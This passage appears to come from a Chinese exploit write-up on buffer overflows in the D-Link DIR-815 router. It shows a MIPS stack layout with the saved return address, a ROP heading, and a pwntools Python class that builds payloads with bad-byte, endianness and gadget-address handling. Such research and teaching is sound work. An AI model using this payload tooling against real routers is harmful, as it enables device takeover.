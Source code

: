 修改

    
    
    $s0  
    $s1  
    $s2  
    $s3  
    $s4  
    $s5  
    $s6  
    $s7  
    $fp  
    $ra <== 返回地址

ROP的思路

![](/images/D-LINK DIR-815多次溢出漏洞/1752587186551.png)

  

    
    
    from pwn import *  
    from MIPSPayload import MIPSPayload  
    import string, random, sys  
    class MIPSPayload:  
        BADBYTES = b"\x00"  
        LITTLE = "little"  
        BIG = "big"  
        FILLER = b"A"  
        BYTES = 4  
        def __init__(self, elfbase:int, endian:str = LITTLE, badbytes: bytes = BADBYTES):  
            self.elfbase = elfbase  
            self.badbytes = badbytes  
            self.endian = endian  
            self.payload = bytes()  
      
        def rand_text(self, size):  
            table = (string.ascii_letters + string.digits).encode()  
            return bytes(random.choices(table, k=size))  
      
        def Add(self, data):  
            if type(data) is bytes:  
                self.payload += data  
            else:  
                raise TypeError("%s is no support type" % type(data))  
      
        def Address(self, offset, base=None):  
            if base is None:  
                base = self.elfbase  
            return self.ToBytes(base + offset)  
      
        def AddAddress(self, offset, base=None):  
            self.Add(self.Address(offset, base))  
      
        def ToBytes(self, value, size=BYTES):  
            data = [(value >> (8 * i)) & 0xff for i in range(size)]  
            if self.endian != self.LITTLE:  
                data = data[::-1]  
            return bytes(data)  
      